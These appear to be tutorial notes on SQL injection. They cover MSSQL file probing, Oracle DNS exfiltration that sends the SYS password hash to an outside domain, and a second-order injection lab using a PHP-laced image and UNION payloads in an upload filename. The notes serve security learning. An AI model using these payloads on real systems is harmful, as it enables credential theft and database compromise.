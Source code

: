 We can use the extended stored procedure MASTER..XP_FILEEXIST to determine whether a particular file exists on the disk or not.
```sql
EXEC MASTER..XP_FILEEXIST 'C:\Windows\system.ini'
```

- 2 alternatives are **XP_DIRTREE** and **XP_SUBDIRS**
* moreover in images


#### Oracle
**UTL_INADDR** package with the functions **GET_HOST_ADDRESS** and **GET_HOST_NAME**

```sql
SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.hacket.site') FROM DUAL
SELECT UTL_INADDR.GET_HOST_NAME((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.hacket.site') FROM DUAL
```

Also functions/packages such as:
```sql
HTTPURITYPE.GETCLOB
UTL_HTTP.REQUEST
DBMS_LDAP.INIT
```

> Can be used, but depends on the version of Oracle

It can be automated with SQLMAP

→ http://www.slideshare.net/stamparm/dns-exfiltration-using-sqlmap-13163281



## Exploiting Second-Order SQL Injection
- Second-order SQL Injections are extremely powerful, much like their equivalent in the first-order space; However, due to their nature, they are more difficult to detect.
- The exploit is submitted in one request and triggere when the application handles a different request.

- Modern automated scanners are unable to perform the rigorous methodology necessaryFor discovering second-order vulnerabilities
- Because there are several possible scenarios

### Lab
- Upload image only
- go to **List of file signatures** in wikipedia
- See the value of jpg files

Try to increment the value with php code in it
```php
<?php phpinfo();
```

Try to open the image uploaded, if the page has php handler it will open the phpinfo 
```sql
# If not, procced to test the file name with BURP > Repeater
filename="example.php' and true -- -"

# If the number of view increase, lets try with UNION this time
filename="example.php' UNION SELECT @@VERSION; -- -"
filename="' UNION SELECT @@VERSION; -- -" //take off the name of the file
filename="' UNION SELECT SCHEMA(); -- -"
filename="' UNION SELECT GROUP_CONCAT(table_name) from information_schema.tables where table_schema = SCHEMA(); -- -"
```
